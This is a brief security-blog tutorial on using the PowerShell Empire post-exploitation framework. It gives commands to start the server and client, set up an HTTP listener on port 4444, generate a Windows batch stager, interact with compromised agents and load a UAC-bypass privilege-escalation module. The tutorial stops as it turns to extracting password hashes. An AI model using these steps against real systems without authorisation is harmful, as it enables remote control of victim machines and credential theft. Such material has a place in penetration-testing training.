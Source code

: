 # Welcome to Cyber Secure Labs
Public Site for sharing security writes




## Post Exploitation 



### Working with Powershell Empire 

Empire is a “PowerShell and Python post-exploitation agent” with a heavy focus on client-side

exploitation and post-exploitation of Active Directory (AD) deployments.


Windows Platform: Exploitation and post exploits are performed using Powershell.


Linux & macOS: Exploitation requires Python 2.6 or 2.7



In the latest version of Powershell Empire comes with a cleint-server model.

To start the server, the command is below: 

```
sudo powershell-empire server
```

To start the client, the command is below: 

```
sudo powershell-empire client
```

After starting both the client an server, the methodology used to carry out an attack are as follows:

1. Start a Listener 
2. Start a Stager
3. Listing the Agents
4. Interact with the agents
5. Run Post Exploitation commands

### Setting up a listener:

```
use Listener http

set Name test

set Host 192.168.119.208

set Port 4444

execute

```

### Setting up a stager:


```
usestager windows/launcher_bat

set Listener test

execute

```


### Setting up a stager:

```
agents
```

### Interacting with an agent

```
interact S2PRDACB
```

### Post Exploitation Commands:

```
info
```


#### Elevating Privileges and Extracting Password Hashes

To do this, type the following command: 

```
usemodule powershell/privesc/bypassuac_env
```
Set Listener to http, since we are using a http listener, and Agent to the agent from the victim machine.

use the info command to see what options are needed to be set.

```
info
```

